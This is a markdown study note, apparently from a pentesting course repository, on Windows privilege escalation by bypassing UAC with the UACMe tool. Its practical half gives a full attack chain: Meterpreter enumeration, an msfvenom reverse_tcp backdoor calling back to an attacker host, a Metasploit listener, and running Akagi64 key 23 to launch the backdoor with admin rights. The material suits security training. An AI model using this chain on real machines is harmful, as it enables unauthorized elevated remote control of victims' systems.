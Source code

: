 # Windows Privilege Escalation: Bypassing UAC
> Bypassing UAC With UACMe

## Contents
- [Intro](#intro)
  - [User Account Control (UAC)](#user-account-control-uac)
  - [The Problem: UAC Pop-Up](#the-problem-uac-pop-up)
  - [Bypassing UAC](#bypassing-uac)
  - [Tool: UACMe](#tool-uacme)
- [Practical: UACMe](#practical-uacme)
  - [Scenario](#scenario)
  - [UACMe - Explanation](#uacme---explanation)
  - [MSFVenom Payload](#msfvenom-payload)
  - [Set up a Listener](#set-up-a-listener)
  - [Meterpreter: On the Target](#meterpreter-on-the-target)
  - [Bypass UAC & Execute Backdoor](#bypass-uac--execute-backdoor)

## Intro

### User Account Control (UAC)
- UAC is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt (admiun password), whereas a privileged user will be prompted with a consent prompt (image below).
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### The Problem: UAC Pop-Up
- The problem you run into is when you're running a remote shell or a meterpreter session on a target machine, and you try to run a program with elevated privileges.
- A dialog box will pop up on the target system system, but b/c you are on the command line, you won't see and won't have any way to acknowledge it.
- Therefore you need a way to bypass that.

### Bypassing UAC
- In order to successfully bypass UAC we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high. If the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting for user confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however the tool and technique used will depend on the version of Windows running on the target system.

### Tool: [UACMe](https://github.com/hfiref0x/UACME)
> Bypassing UAC With UACMe. Look over the README.md documentation.
- UACMe is an open-source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
- The UACMe GitHub repo contains a very well documented list of methods that can be used to bypass UAC on muiltiple versions of Windows ranging from Windows 7 to Window 11.
- It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repo has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.
- NOTE: When selecting a Key, you need to find one that shows "unfixed" in the version of Windows your target machine is running.

## Practical: UACMe

### Scenario
- Unprivileged meterpreter session from system exploit via MSF.
- You get a shell on the system, you enumerate, and try to change the administrator password:
```
sysinfo
# This gives you O/S info (very important)
# Meterpreter: x86/windows (32-bit)

pgrep explorer
# This searches for the explorer process number
# Note the number (process ID for the explorer.exe process)

migrate [pgrep number]
# This should give you a 64-bit meterpreter session

sysinfo
# Meterpreter: x64/windows; good to go

getuid
#You are logged on as "admin" (NOT "administrator"--different). Need priv esc.

getprivs
# Shows you the privileges assigned to the current user
# Indicates an "unprivileged" (non-administrator) account

shell
# Opens a shell session with the current user's creds
```
- In the shell:
```
> net user
  # Shows two accounts: admin and administrator (plus Guest)

> net localgroup administrators
  # Shows admin is part of the administrators group
  # This means that this user can execute with administrator privileges (BUT via UAC)

> net user admin password123
  # Just an example: try to set a new password for the admin account
  # Returns: "System error 5 has occurred. Access is denied."
  # That's UAC blocking the elevated priv. command
```

### UACMe - Explanation 

#### [Description](https://github.com/hfiref0x/UACME#uacme)
- Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor.

#### [Requirements](https://github.com/hfiref0x/UACME#system-requirements)
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account (account/user in the Administrators Group) with UAC set on default settings required.

#### [Usage](https://github.com/hfiref0x/UACME#usage)
- 32-Bit: `akagi32 [Key] [Param]`
- `64-Bit: akagi64 [Key] [Param]`
- The **_Key_** value can be obtained from the "Keys (click to expand/collapse)" just below the usage header.
- The **_Param_** value is an optional command (executable file name including full path) to run.
  - This second parameter can be empty
  - In this case the program will execute elevated cmd.exe from system32 folder.
- We are going to be using Key 23 (works best in this scenario).
  - `23. Author: Leo Davidson derivative`
  - Type: Dll Hijack
  - Method: IFileOperation
  - Target(s): \system32\pkgmgr.exe
  - Component(s): DismCore.dll
  - Implementation: ucmDismMethod
  - Works from: Windows 7 (7600)
  - Fixed in: unfixed
  - Code status: added in v2.5.1
- Run examples:
```
akagi32.exe 23
akagi64.exe 61
akagi32 23 c:\windows\system32\calc.exe
akagi64 61 c:\windows\system32\charmap.exe
```

**Note:** In real life you'll need to clone the repo and compile your own binaries ([see instructions](https://github.com/hfiref0x/UACME/tree/master#build) on the GitHub).

### MSFVenom Payload
- You need to create a payload with MSFVenom and then transfer that to the target system.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f exe > backdoor.exe
```

### Set up a Listener
- You can use the MetaSploit handler:
```
> use multihandler
> set payload windows/meterpreter/reverse_tcp
> set LHOST [local ip]
> set LPORT 1234
> run
```

### Meterpreter: On the Target
- Go back into your meterpreter session and upload the UACMe binary and your backdoor.exe file.
```
> cd C:\\
> mkdir Temp
> cd Temp
> upload backdoor.exe
> upload tools/UACME/Akagi64.exe
> dir                             # should see both of those files
```

#### Problem
- If you tried to execute backdoor.exe to get your reverse shell, you could not because UAC would block it (confirmation pop-up).
- You need to BYPASS UAC FIRST, and that's what Akagi64.exe (with key 23) is for...

### Bypass UAC & Execute Backdoor
- Get a shell on the target via your meterpreter session
```
> .\Akagi64.exe 23 C:\\Temp\backdoor.exe
```
- This should bypass UAC and give you the reverse shell on your listener (with administrator privs).
